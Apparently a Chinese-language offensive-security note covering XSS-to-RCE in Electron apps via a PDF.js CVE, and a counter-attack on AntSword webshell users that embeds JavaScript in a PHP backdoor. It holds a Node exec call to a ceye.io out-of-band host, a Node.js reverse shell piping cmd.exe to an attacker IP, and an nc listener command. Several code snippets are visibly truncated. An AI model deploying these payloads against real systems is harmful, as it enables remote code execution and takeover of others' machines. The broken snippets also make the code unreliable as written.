

## **electron开发的nodejs环境工具**
利用漏洞如CVE-2024-4367 - 在 PDF.js组件执行xss导致命令执行，反弹shell等。

若能xss直接rce：
```


const{exec}=require('child_process');exec('ping rce.2qytvx.ceye.io');
```
查看桌面软件是不是Electron开发：一般看安装包里文件 <https://blog.csdn.net/smileyan9/article/details/130383406>

闭合桌面软件标签，RCE：
```
">
```



^
## **Antsword蚁剑反制**
蓝队通过修改后门的代码实现获得蚁剑使用者的权限
复现环境：

* 蓝队：Linux Web
* 红队：Windows Antsword

原理：修改对方的一句话木马代码内容，嵌入js代码，蚁剑内置有nodejs运行环境。
```
<?php header('HTTP/1.1 500 ');
```

上线：使用Nodejs 代码反弹shell

```
var net = require("net"), sh = require("child_process").exec("cmd.exe");
var client = new net.Socket();
client.connect(xx, "xx.xx.xx.xx",function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
```

Nodejs 代码：

> 编码组合后：

```
<?php 
header("HTTP/1.1 500 Not ");
```

然后启用监听

```
nc -vlp 10086
```

当红队继续使用蚁剑连接后门时，拿到红队机器权限

> 攻击者在连接shell时，会爆红色错误
> 权限取决于蚁剑使用者的权限
> 关闭蚁剑也不会掉权限


